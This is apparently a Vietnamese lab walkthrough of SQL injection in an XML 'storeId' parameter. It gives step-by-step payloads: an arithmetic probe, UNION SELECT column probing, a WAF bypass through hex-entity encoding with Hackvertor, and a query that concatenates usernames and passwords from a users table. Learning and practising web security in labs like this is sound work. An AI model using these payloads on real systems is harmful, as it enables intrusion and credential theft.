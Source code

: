 Tại Repeater, thử sửa storeId để xem ứng dụng có xử lý giá trị này trong truy vấn SQL không:
<storeId>1+1</storeId>
⇒ Ứng dụng trả về số lượng hàng tồn kho của cửa hàng có ID 2 (vì 1+1=2), điều này chứng minh storeId được đưa vào truy vấn SQL và có thể bị tấn công.
- **Bước 2: Thử UNION attack để xác định số cột**
`<storeId>1 UNION SELECT NULL</storeId>` ⇒ Yêu cầu bị chặn bởi WAF
- **Bước 3: Vượt qua WAF bằng cách mã hóa payload
Dùng** Hackvertor để chuyển payload thành dạng mã hóa
⇒ Lần này, yêu cầu không bị chặn bởi WAF, và ta nhận được phản hồi bình thường
- **Bước 4: Xác định số cột của truy vấn gốc**
`<storeId><@hex_entities>1 UNION SELECT NULL</@hex_entities></storeId>`
- **Bước 5: Lấy thông tin đăng nhập của administrator**
Vì truy vấn gốc chỉ trả về 1 cột, ta cần nối (concatenate) username và password thành một chuỗi duy nhất. Sửa payload: `<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>`